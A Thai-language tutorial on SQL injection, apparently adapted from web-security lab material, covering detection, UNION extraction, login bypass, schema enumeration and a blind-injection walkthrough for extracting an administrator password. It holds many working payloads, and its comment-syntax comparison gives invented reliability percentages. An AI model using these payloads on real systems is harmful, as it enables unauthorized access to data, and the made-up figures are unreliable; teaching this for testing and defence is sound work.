**SQL Injection (SQLi) คืออะไร?**

SQL Injection หรือ SQLi เป็นช่องโหว่ด้านความปลอดภัยของเว็บไซต์ที่ทำให้ผู้โจมตีสามารถแทรกแซงคำสั่ง query ที่แอปพลิเคชันส่งไปยังฐานข้อมูลได้ ช่องโหว่นี้ทำให้ผู้โจมตีสามารถเข้าถึงข้อมูลที่ปกติแล้วพวกเขาไม่ควรจะเห็นได้ ซึ่งอาจรวมถึงข้อมูลของผู้ใช้คนอื่น หรือข้อมูลอื่นๆ ที่แอปพลิเคชันสามารถเข้าถึงได้ ในหลายกรณี ผู้โจมตียังสามารถแก้ไขหรือลบข้อมูลนี้ได้ ทำให้เกิดการเปลี่ยนแปลงถาวรต่อเนื้อหาหรือพฤติกรรมของแอปพลิเคชัน

ในบางสถานการณ์ ผู้โจมตีสามารถขยายการโจมตี SQL injection ไปสู่การโจมตีเซิร์ฟเวอร์หลักหรือโครงสร้างพื้นฐานส่วนหลังอื่นๆ ได้ นอกจากนี้ยังทำให้พวกเขาสามารถทำการโจมตีแบบ denial-of-service ได้อีกด้วย

**วิธีการตรวจหาช่องโหว่ SQL injection**

คุณสามารถตรวจหา SQL injection ด้วยตนเองโดยใช้ชุดการทดสอบอย่างเป็นระบบกับทุกจุดรับข้อมูลในแอปพลิเคชัน โดยปกติแล้วจะต้องส่งข้อมูลดังนี้:

* เครื่องหมายอัญประกาศเดี่ยว `'` แล้วดูว่ามี error หรือสิ่งผิดปกติเกิดขึ้นหรือไม่
* syntax เฉพาะของ SQL ที่ประเมินผลเป็นค่าเดิมของจุดรับข้อมูล และค่าที่แตกต่างออกไป แล้วดูความแตกต่างอย่างเป็นระบบในการตอบสนองของแอปพลิเคชัน
* เงื่อนไข Boolean เช่น `OR 1=1` และ `OR 1=2` แล้วดูความแตกต่างในการตอบสนองของแอปพลิเคชัน
* payload ที่ออกแบบมาเพื่อสร้างความล่าช้าเวลาเมื่อถูกประมวลผลภายใน SQL query แล้วดูความแตกต่างในเวลาที่ใช้ตอบสนอง
* OAST payload ที่ออกแบบมาเพื่อกระตุ้นการโต้ตอบเครือข่ายแบบ out-of-band เมื่อถูกประมวลผลภายใน SQL query แล้วติดตามการโต้ตอบที่เกิดขึ้น

อีกทางเลือกหนึ่งคือ คุณสามารถค้นหาช่องโหว่ SQL injection ส่วนใหญ่ได้อย่างรวดเร็วและเชื่อถือได้โดยใช้ Burp Scanner

**SQL injection ในส่วนต่างๆ ของ query**

ช่องโหว่ SQL injection ส่วนใหญ่เกิดขึ้นภายใน clause `WHERE` ของ query `SELECT` นักทดสอบที่มีประสบการณ์ส่วนใหญ่คุ้นเคยกับ SQL injection ประเภทนี้

อย่างไรก็ตาม ช่องโหว่ SQL injection สามารถเกิดขึ้นได้ในตำแหน่งใดก็ได้ภายใน query และในประเภท query ที่แตกต่างกัน ตำแหน่งทั่วไปอื่นๆ ที่ SQL injection มักเกิดขึ้น ได้แก่:

* ใน statement `UPDATE` ภายในค่าที่อัปเดตหรือ clause `WHERE`
* ใน statement `INSERT` ภายในค่าที่แทรก
* ใน statement `SELECT` ภายในชื่อตารางหรือชื่อคอลัมน์
* ใน statement `SELECT` ภายใน clause `ORDER BY`

**การดึงข้อมูลที่ซ่อนอยู่**

ลองนึกภาพแอปพลิเคชันช้อปปิ้งที่แสดงสินค้าในหมวดหมู่ต่างๆ เมื่อผู้ใช้คลิกที่หมวดหมู่ **ของขวัญ** เบราว์เซอร์จะส่งคำขอไปยัง URL:
`https://insecure-website.com/products?category=Gifts`

สิ่งนี้ทำให้แอปพลิเคชันสร้าง SQL query เพื่อดึงรายละเอียดของสินค้าที่เกี่ยวข้องจากฐานข้อมูล:
`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

คำสั่ง SQL นี้ขอให้ฐานข้อมูลส่งคืน:
* รายละเอียดทั้งหมด (`*`)
* จากตาราง `products`
* ที่ `category` เป็น `Gifts`
* และ `released` เป็น `1`

เงื่อนไข `released = 1` ใช้เพื่อซ่อนสินค้าที่ยังไม่ได้เปิดตัว เราสามารถสันนิษฐานได้ว่าสำหรับสินค้าที่ยังไม่เปิดตัว `released = 0`

**การดึงข้อมูลที่ซ่อนอยู่ - ต่อ**

แอปพลิเคชันไม่มีการป้องกันการโจมตี SQL injection ใดๆ เลย ซึ่งหมายความว่าผู้โจมตีสามารถสร้างการโจมตีดังต่อไปนี้ได้ เช่น:
`https://insecure-website.com/products?category=Gifts'--`

ผลลัพธ์คือ SQL query:
`SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1`

สิ่งสำคัญที่ต้องสังเกตคือ `--` เป็นเครื่องหมายบ่งบอกความคิดเห็น (comment) ใน SQL ซึ่งหมายความว่าส่วนที่เหลือของ query จะถูกตีความเป็นความคิดเห็น ทำให้ส่วนนั้นถูกตัดออกไปจริงๆ ในตัวอย่างนี้ หมายความว่า query ไม่รวม `AND released = 1` อีกต่อไป ผลลัพธ์คือสินค้าทั้งหมดจะถูกแสดง รวมถึงสินค้าที่ยังไม่ได้เปิดตัวด้วย

คุณสามารถใช้การโจมตีแบบคล้ายกันเพื่อให้แอปพลิเคชันแสดงสินค้าทั้งหมดในหมวดหมู่ใดก็ได้ รวมถึงหมวดหมู่ที่พวกเขาไม่รู้จักด้วย:
`https://insecure-website.com/products?category=Gifts'+OR+1=1--`

ผลลัพธ์คือ SQL query:
`SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1`

query ที่ถูกแก้ไขจะส่งคืนรายการทั้งหมดที่ `category` เป็น `Gifts` หรือ `1` เท่ากับ `1` เนื่องจาก `1=1` เป็นจริงเสมอ query จึงส่งคืนรายการทั้งหมด

**คำเตือน**

ระวังเมื่อแทรกเงื่อนไข `OR 1=1` เข้าไปใน SQL query แม้ว่ามันจะดูไม่เป็นอันตรายในบริบทที่คุณแทรกเข้าไป แต่แอปพลิเคชันมักใช้ข้อมูลจากคำขอเดียวใน query ต่างๆ หลายตัว หากเงื่อนไขของคุณไปถึง statement `UPDATE` หรือ `DELETE` เช่น อาจส่งผลให้เกิดการสูญเสียข้อมูลโดยไม่ตั้งใจได้

**การทำลายตรรกะของแอปพลิเคชัน**

ลองนึกภาพแอปพลิเคชันที่ให้ผู้ใช้ล็อกอินด้วยชื่อผู้ใช้และรหัสผ่าน หากผู้ใช้ส่งชื่อผู้ใช้ `wiener` และรหัสผ่าน `bluecheese` แอปพลิเคชันจะตรวจสอบข้อมูลประจำตัวโดยใช้ SQL query ดังนี้:
`SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'`

หาก query ส่งคืนรายละเอียดของผู้ใช้ การล็อกอินก็สำเร็จ มิฉะนั้นจะถูกปฏิเสธ

ในกรณีนี้ ผู้โจมตีสามารถล็อกอินเป็นผู้ใช้คนใดก็ได้โดยไม่ต้องใช้รหัสผ่าน พวกเขาสามารถทำได้โดยใช้ลำดับ comment ของ SQL คือ `--` เพื่อเอาการตรวจสอบรหัสผ่านออกจาก clause `WHERE` ของ query เช่น การส่งชื่อผู้ใช้ `administrator'--` และรหัสผ่านว่างจะได้ query ดังนี้:
`SELECT * FROM users WHERE username = 'administrator'--' AND password = ''`

query นี้จะส่งคืนผู้ใช้ที่มี `username` เป็น `administrator` และล็อกอินผู้โจมตีเข้าสู่ระบบในฐานะผู้ใช้คนนั้นได้สำเร็จ


### **Time-based:**
```sql
'; WAITFOR DELAY '00:00:05'-- 
'; SELECT SLEEP(5)#
```

### **Error-based:**
```sql
' AND 1=CAST((SELECT @@version) AS int)--
' AND EXTRACTVALUE(1,CONCAT(0x7e,version(),0x7e))#
```

### **Union-based:**
```sql
' UNION SELECT NULL,version()-- 
' UNION SELECT 1,2,3/*
```

## **Database Compatibility Table:**

| Comment Type | MySQL | PostgreSQL | SQL Server | Oracle | SQLite |
|-------------|--------|------------|------------|--------|--------|
| `--` | ✅ | ✅ | ✅ | ✅ | ✅ |
| `/* */` | ✅ | ✅ | ✅ | ✅ | ✅ |
| `#` | ✅ | ❌ | ❌ | ❌ | ❌ |
| `/*!` | ✅ | ❌ | ❌ | ❌ | ❌ |
| `REM` | ❌ | ❌ | ❌ | ✅ | ❌ |
| Nested `/* */` | ❌ | ✅ | ❌ | ❌ | ❌ |

รูปแบบ comment ทั้งหมดที่ใช้ได้ในฐานข้อมูลต่างๆ 

นี่คือความแตกต่างระหว่าง `--` และ `-- -`:

## **`--` (Double Dash)**

### **ปัญหาที่พบ:**
```sql
-- ❌ อาจไม่ทำงานในบางกรณี
' OR 1=1--
' OR 1=1--'remaining_code'
```

**เหตุผล:**
1. **SQL Standard** กำหนดให้ต้องมี space หลัง `--`
2. **Parser Strict** - บาง DBMS ตีความเข้มงวด
3. **URL Encoding Issues** - space อาจหายระหว่างทาง

### **เมื่อไหร่ที่ใช้ได้:**
```sql
-- ✅ ใช้ได้เมื่อมี space ต่อท้าย
' OR 1=1-- 
' OR 1=1--[space]
```

## **`-- -` (Double Dash Space Dash)**

### **ข้อดี:**
```sql
-- ✅ ทำงานได้ทุกกรณี
' OR 1=1-- -
' OR 1=1-- -anything_here_ignored
```

**เหตุผล:**
1. **Guaranteed Space** - มี space แน่นอนหลัง `--`
2. **SQL Compliant** - ตรงตาม SQL standard
3. **Universal Compatibility** - ทำงานกับ DBMS ทุกตัว
4. **URL Safe** - ไม่มีปัญหาเมื่อ encode/decode

## **สรุป:**

| Aspect | `--` | `-- -` |
|--------|------|--------|
| **SQL Standard** | ❌ ต้องมี space | ✅ ถูกต้อง |
| **Compatibility** | ⚠️ บางครั้ง | ✅ ทุกครั้ง |
| **URL Safe** | ❌ อาจเสีย space | ✅ ปลอดภัย |
| **Reliability** | ⚠️ 80% | ✅ 99% |

**คำแนะนำ:** ใช้ `-- -` เสมอเพื่อความปลอดภัยและความเข้ากันได้สูงสุด

**การโจมตี SQL injection แบบ UNION**

เมื่อแอปพลิเคชันมีช่องโหว่ต่อ SQL injection และผลลัพธ์ของ query ถูกส่งคืนในการตอบสนองของแอปพลิเคชัน คุณสามารถใช้คีย์เวิร์ด `UNION` เพื่อดึงข้อมูลจากตารางอื่นๆ ในฐานข้อมูลได้ วิธีนี้เรียกกันโดยทั่วไปว่าการโจมตี SQL injection แบบ UNION

คีย์เวิร์ด `UNION` ช่วยให้คุณสามารถประมวลผล query `SELECT` เพิ่มเติมได้หนึ่งตัวหรือมากกว่า และผนวกผลลัพธ์เข้ากับ query เดิม เช่น:
`SELECT a, b FROM table1 UNION SELECT c, d FROM table2`

SQL query นี้จะส่งคืนชุดผลลัพธ์เดียวที่มีสองคอลัมน์ ประกอบด้วยค่าจากคอลัมน์ `a` และ `b` ใน `table1` และคอลัมน์ `c` และ `d` ใน `table2`

เพื่อให้ query `UNION` ทำงานได้ ต้องมีข้อกำหนดสำคัญสองข้อ:
* query แต่ละตัวต้องส่งคืนจำนวนคอลัมน์เท่ากัน
* ชนิดข้อมูลในแต่ละคอลัมน์ต้องเข้ากันได้ระหว่าง query แต่ละตัว

เพื่อดำเนินการโจมตี SQL injection แบบ UNION ให้แน่ใจว่าการโจมตีของคุณตรงตามข้อกำหนดทั้งสองนี้ ซึ่งปกติแล้วจะต้องหา:
* จำนวนคอลัมน์ที่ถูกส่งคืนจาก query เดิม
* คอลัมน์ใดที่ส่งคืนจาก query เดิมมีชนิดข้อมูลที่เหมาะสมสำหรับเก็บผลลัพธ์จาก query ที่แทรกเข้าไป

**การหาจำนวนคอลัมน์ที่ต้องการ**

เมื่อคุณทำการโจมตี SQL injection แบบ UNION มีวิธีการที่มีประสิทธิภาพสองวิธีในการหาจำนวนคอลัมน์ที่ถูกส่งคืนจาก query เดิม

วิธีหนึ่งคือการแทรก clause `ORDER BY` เป็นลำดับและเพิ่มดัชนีคอลัมน์ที่ระบุจนกว่าจะเกิด error เช่น หากจุดแทรกเป็นสตริงที่มีเครื่องหมายคำพูดภายใน clause `WHERE` ของ query เดิม คุณจะส่ง:
`' ORDER BY 1-- ' ORDER BY 2-- ' ORDER BY 3-- เป็นต้น`

ลำดับ payload เหล่านี้จะแก้ไข query เดิมให้เรียงลำดับผลลัพธ์ตามคอลัมน์ต่างๆ ในชุดผลลัพธ์ คอลัมน์ใน clause `ORDER BY` สามารถระบุได้โดยดัชนี ดังนั้นคุณไม่จำเป็นต้องรู้ชื่อของคอลัมน์ใดๆ เมื่อดัชนีคอลัมน์ที่ระบุเกินจำนวนคอลัมน์จริงในชุดผลลัพธ์ ฐานข้อมูลจะส่งคืน error เช่น:
`The ORDER BY position number 3 is out of range of the number of items in the select list.`

แอปพลิเคชันอาจส่งคืน error ของฐานข้อมูลในการตอบสนอง HTTP จริงๆ แต่อาจออก error response ทั่วไป ในกรณีอื่นๆ อาจไม่ส่งผลลัพธ์เลย ไม่ว่าจะเป็นอย่างไร ตราบใดที่คุณสามารถตรวจจับความแตกต่างในการตอบสนองได้ คุณก็สามารถอนุมานได้ว่ามีกี่คอลัมน์ที่ถูกส่งคืนจาก query

วิธีที่สองคือการส่งลำดับ `UNION SELECT` payload ที่ระบุจำนวน null value ที่แตกต่างกัน:
`' UNION SELECT NULL-- ' UNION SELECT NULL,NULL-- ' UNION SELECT NULL,NULL,NULL-- เป็นต้น`

หากจำนวน null ไม่ตรงกับจำนวนคอลัมน์ ฐานข้อมูลจะส่งคืน error เช่น:
`All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.`

เราใช้ `NULL` เป็นค่าที่ส่งคืนจาก query `SELECT` ที่แทรกเข้าไป เพราะชนิดข้อมูลในแต่ละคอลัมน์ต้องเข้ากันได้ระหว่าง query เดิมและ query ที่แทรกเข้าไป `NULL` สามารถแปลงเป็นชนิดข้อมูลทั่วไปทุกชนิดได้ จึงเพิ่มโอกาสที่ payload จะสำเร็จเมื่อจำนวนคอลัมน์ถูกต้อง

เช่นเดียวกับเทคนิค `ORDER BY` แอปพลิเคชันอาจส่งคืน error ของฐานข้อมูลในการตอบสนอง HTTP จริงๆ แต่อาจส่งคืน error ทั่วไปหรือไม่ส่งผลลัพธ์เลย เมื่อจำนวน null ตรงกับจำนวนคอลัมน์ ฐานข้อมูลจะส่งคืนแถวเพิ่มเติมในชุดผลลัพธ์ที่มี null value ในแต่ละคอลัมน์ ผลกระทบต่อการตอบสนอง HTTP ขึ้นอยู่กับโค้ดของแอปพลิเคชัน หากโชคดี คุณจะเห็นเนื้อหาเพิ่มเติมในการตอบสนอง เช่น แถวเพิ่มเติมในตาราง HTML มิฉะนั้น null value อาจทำให้เกิด error อื่น เช่น `NullPointerException` ในกรณีเลวร้ายที่สุด การตอบสนองอาจดูเหมือนเดิมกับการตอบสนองที่เกิดจากจำนวน null ที่ไม่ถูกต้อง ซึ่งจะทำให้วิธีนี้ไม่มีประสิทธิภาพ

**syntax เฉพาะของฐานข้อมูล**

ใน Oracle ทุก query `SELECT` ต้องใช้คีย์เวิร์ด `FROM` และระบุตารางที่ถูกต้อง มีตารางที่สร้างไว้แล้วใน Oracle เรียกว่า `dual` ซึ่งสามารถใช้เพื่อจุดประสงค์นี้ได้ ดังนั้น query ที่แทรกเข้าไปใน Oracle ต้องดูเป็นแบบนี้:
`' UNION SELECT NULL FROM DUAL--`

payload ที่อธิบายไปใช้ลำดับ comment แบบ double-dash `--` เพื่อทำให้ส่วนที่เหลือของ query เดิมหลังจากจุดแทรกกลายเป็น comment ใน MySQL ลำดับ double-dash ต้องตามด้วยช่องว่าง หรือจะใช้เครื่องหมาย hash `#` เพื่อระบุ comment ได้

สำหรับรายละเอียดเพิ่มเติมเกี่ยวกับ syntax เฉพาะของฐานข้อมูล ดูได้ที่ SQL injection cheat sheet

**การหาคอลัมน์ที่มีชนิดข้อมูลที่เป็นประโยชน์**

การโจมตี SQL injection แบบ UNION ช่วยให้คุณสามารถดึงผลลัพธ์จาก query ที่แทรกเข้าไปได้ ข้อมูลที่น่าสนใจที่คุณต้องการดึงมักจะอยู่ในรูปแบบสตริง ซึ่งหมายความว่าคุณต้องหาคอลัมน์หนึ่งหรือมากกว่าในผลลัพธ์ query เดิมที่มีชนิดข้อมูลเป็น หรือเข้ากันได้กับข้อมูลสตริง

หลังจากที่คุณหาจำนวนคอลัมน์ที่ต้องการได้แล้ว คุณสามารถทดสอบแต่ละคอลัมน์เพื่อดูว่าสามารถเก็บข้อมูลสตริงได้หรือไม่ คุณสามารถส่งลำดับ `UNION SELECT` payload ที่วางค่าสตริงลงในแต่ละคอลัมน์ตามลำดับ เช่น หาก query ส่งคืนสี่คอลัมน์ คุณจะส่ง:
`' UNION SELECT 'a',NULL,NULL,NULL-- ' UNION SELECT NULL,'a',NULL,NULL-- ' UNION SELECT NULL,NULL,'a',NULL-- ' UNION SELECT NULL,NULL,NULL,'a'--`

หากชนิดข้อมูลของคอลัมน์ไม่เข้ากันกับข้อมูลสตริง query ที่แทรกเข้าไปจะทำให้เกิด error ของฐานข้อมูล เช่น:
`Conversion failed when converting the varchar value 'a' to data type int.`

หากไม่เกิด error และการตอบสนองของแอปพลิเคชันมีเนื้อหาเพิ่มเติมรวมถึงค่าสตริงที่แทรกเข้าไป แสดงว่าคอลัมน์นั้นเหมาะสำหรับการดึงข้อมูลสตริง

`NULL` ไม่ compatible กับทุก data type ใน SQL เสมอไป แม้ว่า `NULL` จะเป็นค่าที่สามารถใช้ได้กับ data type ส่วนใหญ่

**หลักการทั่วไป:**
- `NULL` สามารถใช้ได้กับ data type ส่วนใหญ่ เพราะมันแทนค่า "ไม่มีค่า" หรือ "unknown"
- เมื่อใช้ `UNION` SQL จะทำ type coercion (แปลงประเภทข้อมูล) โดยอัตโนมัติ

**กรณีที่อาจมีปัญหา:**

1. **Strict type checking** - บาง DBMS อาจเข้มงวดมากกว่า
2. **Custom data types** - data type ที่กำหนดเองอาจไม่รองรับ NULL
3. **Special constraints** - column ที่มี NOT NULL constraint

**ตัวอย่างที่ใช้ได้:**
```sql
SELECT 'text', 123, '2024-01-01'::date
UNION 
SELECT NULL, NULL, NULL
```

**กรณีที่ควรระวัง:**
```sql
-- อาจมีปัญหาใน PostgreSQL กับ array types
SELECT ARRAY[1,2,3]
UNION
SELECT NULL  -- อาจต้องระบุเป็น NULL::integer[]
```

โดยรวมแล้ว `NULL` ใช้ได้กับ data type ส่วนใหญ่ แต่ไม่ใช่ 100% ทุกกรณี

**การใช้การโจมตี SQL injection แบบ UNION เพื่อดึงข้อมูลที่น่าสนใจ**

เมื่อคุณได้หาจำนวนคอลัมน์ที่ส่งคืนโดย query เดิมและพบว่าคอลัมน์ใดสามารถเก็บข้อมูลสตริงได้แล้ว คุณก็อยู่ในตำแหน่งที่จะดึงข้อมูลที่น่าสนใจได้

สมมติว่า:
* query เดิมส่งคืนสองคอลัมน์ ซึ่งทั้งคู่สามารถเก็บข้อมูลสตริงได้
* จุดแทรกเป็นสตริงที่มีเครื่องหมายคำพูดภายใน clause `WHERE`
* ฐานข้อมูลมีตารางชื่อ `users` ที่มีคอลัมน์ `username` และ `password`

ในตัวอย่างนี้ คุณสามารถดึงเนื้อหาของตาราง `users` โดยส่งข้อมูลนำเข้า:
`' UNION SELECT username, password FROM users--`

เพื่อทำการโจมตีนี้ คุณต้องรู้ว่ามีตารางชื่อ `users` ที่มีสองคอลัมน์ชื่อ `username` และ `password` หากไม่มีข้อมูลนี้ คุณจะต้องเดาชื่อของตารางและคอลัมน์ ฐานข้อมูลสมัยใหม่ทั้งหมดมีวิธีในการตรวจสอบโครงสร้างฐานข้อมูลและหาว่ามีตารางและคอลัมน์อะไรบ้าง

**การดึงค่าหลายตัวภายในคอลัมน์เดียว**

ในบางกรณี query ในตัวอย่างก่อนหน้านี้อาจส่งคืนเพียงคอลัมน์เดียว

คุณสามารถดึงค่าหลายตัวมารวมกันภายในคอลัมน์เดียวนี้โดยการต่อค่าเหล่านั้นเข้าด้วยกัน คุณสามารถใส่ตัวแยกเพื่อให้แยกแยะค่าที่รวมกันได้ เช่น ใน Oracle คุณสามารถส่งข้อมูลนำเข้า:
`' UNION SELECT username || '~' || password FROM users--`

วิธีนี้ใช้ลำดับ double-pipe `||` ซึ่งเป็น operator สำหรับต่อสตริงใน Oracle query ที่แทรกเข้าไปจะต่อค่าของฟิลด์ `username` และ `password` เข้าด้วยกัน โดยคั่นด้วยตัวอักษร `~`

ผลลัพธ์จาก query จะมีชื่อผู้ใช้และรหัสผ่านทั้งหมด เช่น:
`... administrator~s3cure wiener~peter carlos~montoya ...`


' UNION SELECT 1,CONCAT(username,':',password) FROM users --

**การตรวจสอบฐานข้อมูลในการโจมตี SQL injection**

เพื่อใช้ประโยชน์จากช่องโหว่ SQL injection มักจำเป็นต้องหาข้อมูลเกี่ยวกับฐานข้อมูล ซึ่งรวมถึง:
* ประเภทและเวอร์ชันของซอฟต์แวร์ฐานข้อมูล
* ตารางและคอลัมน์ที่ฐานข้อมูลมี

**การ query ประเภทและเวอร์ชันของฐานข้อมูล**

คุณสามารถระบุทั้งประเภทและเวอร์ชันของฐานข้อมูลได้โดยการแทรก query เฉพาะของผู้ให้บริการเพื่อดูว่าอันไหนทำงาน

ต่อไปนี้คือ query บางตัวเพื่อหาเวอร์ชันฐานข้อมูลสำหรับฐานข้อมูลยอดนิยมบางประเภท:

| ประเภทฐานข้อมูล | Query |
|---|---|
| Microsoft, MySQL | `SELECT @@version` |
| Oracle | `SELECT * FROM v$version` |
| PostgreSQL | `SELECT version()` |

เช่น คุณสามารถใช้การโจมตี `UNION` กับข้อมูลนำเข้าต่อไปนี้:
`' UNION SELECT @@version--`

วิธีนี้อาจส่งคืนผลลัพธ์ดังต่อไปนี้ ในกรณีนี้ คุณสามารถยืนยันได้ว่าฐานข้อมูลเป็น Microsoft SQL Server และดูเวอร์ชันที่ใช้:
`Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64) Mar 18 2018 09:11:49 Copyright (c) Microsoft Corporation Standard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: ) (Hypervisor)`

**การแสดงรายการเนื้อหาของฐานข้อมูล**

ฐานข้อมูลประเภทส่วนใหญ่ (ยกเว้น Oracle) มีชุด view เรียกว่า information schema ซึ่งให้ข้อมูลเกี่ยวกับฐานข้อมูล

เช่น คุณสามารถ query `information_schema.tables` เพื่อแสดงรายการตารางในฐานข้อมูล:
`SELECT * FROM information_schema.tables`

วิธีนี้จะส่งคืนผลลัพธ์เช่นนี้:
```
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE
=====================================================
MyDatabase     dbo           Products    BASE TABLE
MyDatabase     dbo           Users       BASE TABLE
MyDatabase     dbo           Feedback    BASE TABLE
```

ผลลัพธ์นี้แสดงว่ามีสามตาราง ชื่อ `Products`, `Users`, และ `Feedback`

จากนั้นคุณสามารถ query `information_schema.columns` เพื่อแสดงรายการคอลัมน์ในตารางแต่ละตาราง:
`SELECT * FROM information_schema.columns WHERE table_name = 'Users'`

วิธีนี้จะส่งคืนผลลัพธ์เช่นนี้:
```
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE
=================================================================
MyDatabase     dbo           Users       UserId       int
MyDatabase     dbo           Users       Username     varchar
MyDatabase     dbo           Users       Password     varchar
```

ผลลัพธ์นี้แสดงคอลัมน์ในตารางที่ระบุและชนิดข้อมูลของแต่ละคอลัมน์

**Blind SQL injection คืออะไร?**

Blind SQL injection เกิดขึ้นเมื่อแอปพลิเคชันมีช่องโหว่ต่อ SQL injection แต่การตอบสนอง HTTP ไม่มีผลลัพธ์ของ SQL query ที่เกี่ยวข้องหรือรายละเอียดของ error ฐานข้อมูลใดๆ

เทคนิคหลายอย่างเช่นการโจมตี `UNION` ไม่มีประสิทธิภาพกับช่องโหว่ blind SQL injection เพราะพวกมันพึ่งพาการมองเห็นผลลัพธ์ของ query ที่แทรกเข้าไปในการตอบสนองของแอปพลิเคชัน แต่ยังคงสามารถใช้ประโยชน์จาก blind SQL injection เพื่อเข้าถึงข้อมูลที่ไม่ได้รับอนุญาตได้ แต่ต้องใช้เทคนิคที่แตกต่างกัน

**การใช้ประโยชน์จาก blind SQL injection โดยการกระตุ้นการตอบสนองแบบมีเงื่อนไข**

พิจารณาแอปพลิเคชันที่ใช้ tracking cookie เพื่อรวบรวมข้อมูลการวิเคราะห์เกี่ยวกับการใช้งาน คำขอไปยังแอปพลิเคชันจะรวม cookie header เช่นนี้:
`Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4`

เมื่อคำขอที่มี cookie `TrackingId` ถูกประมวลผล แอปพลิเคชันจะใช้ SQL query เพื่อตัดสินใจว่านี่คือผู้ใช้ที่รู้จักหรือไม่:
`SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'`

query นี้มีช่องโหว่ต่อ SQL injection แต่ผลลัพธ์จาก query ไม่ถูกส่งคืนให้ผู้ใช้ อย่างไรก็ตาม แอปพลิเคชันทำงานแตกต่างกันขึ้นอยู่กับว่า query ส่งคืนข้อมูลหรือไม่ หากคุณส่ง `TrackingId` ที่รู้จัก query จะส่งคืนข้อมูลและคุณจะได้รับข้อความ "Welcome back" ในการตอบสนอง

พฤติกรรมนี้เพียงพอที่จะใช้ประโยชน์จากช่องโหว่ blind SQL injection ได้ คุณสามารถดึงข้อมูลโดยการกระตุ้นการตอบสนองที่แตกต่างกันแบบมีเงื่อนไข ขึ้นอยู่กับเงื่อนไขที่แทรกเข้าไป

เพื่อเข้าใจว่าการใช้ประโยชน์นี้ทำงานอย่างไร สมมติว่ามีการส่งคำขอสองครั้งที่มีค่า cookie `TrackingId` ดังต่อไปนี้ตามลำดับ:
```
…xyz' AND '1'='1
…xyz' AND '1'='2
```

* ค่าแรกทำให้ query ส่งคืนผลลัพธ์ เพราะเงื่อนไข `AND '1'='1` ที่แทรกเข้าไปเป็นจริง ผลลัพธ์คือข้อความ "Welcome back" จะแสดง
* ค่าที่สองทำให้ query ไม่ส่งคืนผลลัพธ์ใดๆ เพราะเงื่อนไขที่แทรกเข้าไปเป็นเท็จ ข้อความ "Welcome back" จะไม่แสดง

วิธีนี้ช่วยให้เราตัดสินใจได้ว่าคำตอบของเงื่อนไขเดียวที่แทรกเข้าไปเป็นอย่างไร และดึงข้อมูลมาทีละชิ้น

เช่น สมมติว่ามีตารางชื่อ `Users` ที่มีคอลัมน์ `Username` และ `Password` และมีผู้ใช้ชื่อ `Administrator` คุณสามารถหารหัสผ่านสำหรับผู้ใช้คนนี้ได้โดยการส่งชุดข้อมูลนำเข้าเพื่อทดสอบรหัสผ่านทีละตัวอักษร

เพื่อทำสิ่งนี้ เริ่มต้นด้วยข้อมูลนำเข้าต่อไปนี้:
`xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm`

วิธีนี้ส่งคืนข้อความ "Welcome back" แสดงว่าเงื่อนไขที่แทรกเข้าไปเป็นจริง ดังนั้นตัวอักษรแรกของรหัสผ่านมากกว่า `m`

ต่อไป เราส่งข้อมูลนำเข้าต่อไปนี้:
`xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't`

วิธีนี้ไม่ส่งคืนข้อความ "Welcome back" แสดงว่าเงื่อนไขที่แทรกเข้าไปเป็นเท็จ ดังนั้นตัวอักษรแรกของรหัสผ่านไม่มากกว่า `t`

ในที่สุด เราส่งข้อมูลนำเข้าต่อไปนี้ ซึ่งส่งคืนข้อความ "Welcome back" จึงยืนยันว่าตัวอักษรแรกของรหัสผ่านคือ `s`:
`xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's`

เราสามารถดำเนินกระบวนการนี้ต่อไปเพื่อหารหัสผ่านทั้งหมดสำหรับผู้ใช้ `Administrator` อย่างเป็นระบบ

**หมายเหตุ**
ฟังก์ชัน `SUBSTRING` เรียกว่า `SUBSTR` ในฐานข้อมูลบางประเภท 




**สรุปขั้นตอนการทำ Blind SQL Injection**

**ขั้นที่ 1: ทดสอบช่องโหว่**
- ใช้ Burp Suite สกัดกั้น TrackingId cookie
- ทดสอบ: `TrackingId=xyz' AND '1'='1` (ต้องเห็น "Welcome back")
- ทดสอบ: `TrackingId=xyz' AND '1'='2` (ไม่เห็น "Welcome back")

**ขั้นที่ 2: หาตารางและผู้ใช้**
- ทดสอบมีตาราง users: `xyz' AND (SELECT 'a' FROM users LIMIT 1)='a`
- ทดสอบมีผู้ใช้ administrator: `xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a`

**ขั้นที่ 3: หาความยาวรหัสผ่าน**
- ทดสอบทีละจำนวน: `xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a`
- เพิ่มตัวเลขไปเรื่อยๆ (>2, >3, >4...) จนเงื่อนไขเป็นเท็จ
- ผลลัพธ์: รหัสผ่านยาว 20 ตัวอักษร

**ขั้นที่ 4: หารหัสผ่านทีละตัวอักษร (ใช้ Burp Intruder)**
- ตั้งค่า payload: `xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§§`
- เพิ่ม payload a-z และ 0-9
